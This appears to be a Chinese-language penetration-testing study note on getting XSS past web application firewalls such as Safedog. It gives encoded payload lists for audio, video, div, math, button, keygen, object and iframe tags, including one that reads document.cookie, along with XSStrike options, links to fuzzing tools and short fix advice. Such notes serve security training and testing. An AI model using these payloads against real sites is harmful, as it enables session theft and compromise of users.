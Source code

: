 推荐阅读：<br />[WAF攻防实战笔记v1.0--Bypass.pdf](https://www.yuque.com/attachments/yuque/0/2023/pdf/34523688/1696908471868-e27eb882-ee6f-46d2-8763-c5a9d9d0047b.pdf)<br />![](https://cdn.nlark.com/yuque/0/2021/png/2476579/1628132918301-6d92440b-aa98-4275-a9bf-b7f7658b568a.png?x-oss-process=image%2Fresize%2Cw_908%2Cresize%2Cw_908#from=url&id=s0gET&originHeight=811&originWidth=908&originalType=binary&ratio=1&status=done&style=none)

<a name="TMkGC"></a>
## 常规 WAF 绕过思路 
```bash
标签语法替换 
特殊符号干扰 
提交方式更改 
垃圾数据溢出 
加密解密算法 
结合其他漏洞绕过  
```
**安全狗waf**<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1628670393749-728c2af6-7c29-49ab-8f5a-909f70d247f4.png#clientId=u5d213080-7d85-4&from=paste&height=419&id=uadd1784d&originHeight=838&originWidth=1318&originalType=binary&ratio=1&size=192499&status=done&style=none&taskId=u3933f11b-276a-4352-b66f-2c50135ebfe&width=659)<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1628670329110-f70a4972-cf7e-4d25-9da9-b318c965db2e.png#clientId=u5d213080-7d85-4&from=paste&height=362&id=u6eb5f6da&originHeight=723&originWidth=1370&originalType=binary&ratio=1&size=68793&status=done&style=none&taskId=u3ce0d07f-7524-4793-aabf-22b12b369a1&width=685)

<a name="JvZvq"></a>
## 常见waf过滤的标签
```bash
<script>  <a>  <p>  <img>  <body> <button>  <var>  <div>  <iframe>  <object> <input> 
<textarea>  <keygen> <frameset>  <embed>  <svg>  <math>  <video>  <audio> <select>
```
**绕过方法**
```bash
可以弹窗的：alert，prompt ，confirm，base64加密，编码绕过（安全狗都没有过滤）

绕过方法有很多比如：

大小写绕过
javascript伪协议
没有分号
Flash
HTML5 新标签
Fuzz进行测试
双层标签绕过
```
**audio标签**

```
<audio src=x onerror=alert(47)>
<audio src=x onerror=prompt(1);>
<audio src=1 href=1 onerror="javascript:alert(1)"></audio>
```

**video标签**

```
<video src=x onerror=prompt(1);>
<video src=x onerror=alert(48)>
```

**div标签**

```
<div style="width:expression(alert(/1/))">1</div>     ie浏览器执行
<div onmouseover%3d'alert%26lpar%3b1%26rpar%3b'>DIV<%2fdiv>   url编码绕过
```

**math标签**

```
<math><a/xlink:href=javascript:prompt(1)>Xss

<math href="javascript:javascript:alert(1)">Xss</math>
```

**button标签**

```
<button onfocus=alert(1) autofocus>
<button/onclick=alert(1) >xss</button>
```

**keygen标签**

```
<keygen/onfocus=prompt(1);>
<keygen onfocus=javascript:alert(1) autofocus>
```

**object标签**

```
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></object>

base64加密：PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg    
      解码：<script>alert(1)</script>
```

**iframe标签**

```
<IFRAME width%3d"420" height%3d"315" frameborder%3d"0" onload%3d"alert(document.cookie)"><%2fIFRAME>
<iframe%2fsrc%3d"data%3atext%2fhtml%3b%26Tab%3bbase64%26Tab%3b,PGJvZHkgb25sb2FkPWFsZXJ0KDEpPg%3d%3d">
<iframe srcdoc%3d'%26lt%3bbody onload%3dprompt%26lpar%3b1%26rpar%3b%26gt%3b'>
```

![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1628672708198-4d7c8ebf-a562-45bf-b5aa-8252d79d2a00.png#clientId=u1613a801-9ca0-4&from=paste&height=149&id=u9ea80b8f&originHeight=298&originWidth=1378&originalType=binary&ratio=1&size=28223&status=done&style=none&taskId=u3905a4f2-b826-4d51-bbd5-b43c25212ea&width=689)
<a name="qKLSs"></a>
## xssfuzz在线fuzz工具
[https://xssfuzzer.com/fuzzer.html](https://xssfuzzer.com/fuzzer.html)<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1628685763484-c63dba8e-ddbd-4e1f-b7e3-2e41fa4854ac.png#clientId=u1613a801-9ca0-4&from=paste&height=407&id=ubff9d113&originHeight=814&originWidth=1680&originalType=binary&ratio=1&size=87178&status=done&style=none&taskId=u8d62eff7-e439-48a4-8b5a-65ec06c0102&width=840)
<a name="YX6jS"></a>
##  自动化工具说明  
```bash
XSStrike 主要特点反射和 DOM XSS 扫描
多线程爬虫
Context 分析
可配置的核心
检测和规避 WAF
老旧的 JS 库扫描
智能 payload 生成器
手工制作的 HTML & JavaScript 解析器
强大的 fuzzing 引擎
盲打 XSS 支持
高效的工作流
完整的 HTTP 支持
Bruteforce payloads 支持
Payload 编码
```
```bash
-h, --help 			//显示帮助信息
-u, --url 			//指定目标 URL
--data 					//POST 方式提交内容
-v, --verbose 	//详细输出
-f, --file 			//加载自定义 paload 字典
-t, --threads 	//定义线程数
-l, --level 		//爬行深度
-t, --encode 		//定义 payload 编码方式
--json 					//将 POST 数据视为 JSON
--path 					//测试 URL 路径组件
--seeds 				//从文件中测试、抓取 URL
--fuzzer 				//测试过滤器和 Web 应用程序防火墙。
--update 				//更新
--timeout 			//设置超时时间
--params 				//指定参数
--crawl 				//爬行
--proxy 				//使用代理
--blind 				//盲测试
--skip 					//跳过确认提示
--skip-dom 			//跳过 DOM 扫描
--headers 			//提供 HTTP 标头
-d, --delay 		//设置延迟

```
![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1628687047436-f08e74ab-b015-4aef-83f7-78f4998681ee.png#clientId=u1613a801-9ca0-4&from=paste&height=372&id=ua2bc7555&originHeight=743&originWidth=1543&originalType=binary&ratio=1&size=101125&status=done&style=none&taskId=u6deb238d-094d-4c99-b438-e86bc7060e8&width=771.5)<br />简单的探针绕过<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1628687240408-b3630938-971e-46fb-be7a-91445e4c41ec.png#clientId=u1613a801-9ca0-4&from=paste&id=ue3eabe8e&originHeight=646&originWidth=1323&originalType=binary&ratio=1&size=73934&status=done&style=none&taskId=u97335706-f2d9-4388-9afa-e61ab5a89ab)



#安全修复方案
```bash

开启 httponly,输入过滤，输出过滤等
PHP:http://www.zuimoge.com/212.html
JAVA:https://www.cnblogs.com/baixiansheng/p/9001522.html
```

<a name="nvAlB"></a>
## 演示案例

- 手工探针 XSS 绕过 WAF 规则 
- 自动化 XSS 绕过 WAF 测试演示 
- Fuzz 下 XSS 绕过 WAF 测试演示 
- 关于 XSS 跨站安全修复建议测试  

<a name="F64x0"></a>
## 涉及资源
```bash
https://gitee.com/yhtmxl/imxss/

https://github.com/3xp10it/xwaf

https://xssfuzzer.com/fuzzer.html

https://github.com/s0md3v/XSStrike

https://bbs.pediy.com/thread-250852.htm

https://github.com/TheKingOfDuck/fuzzDicts
```
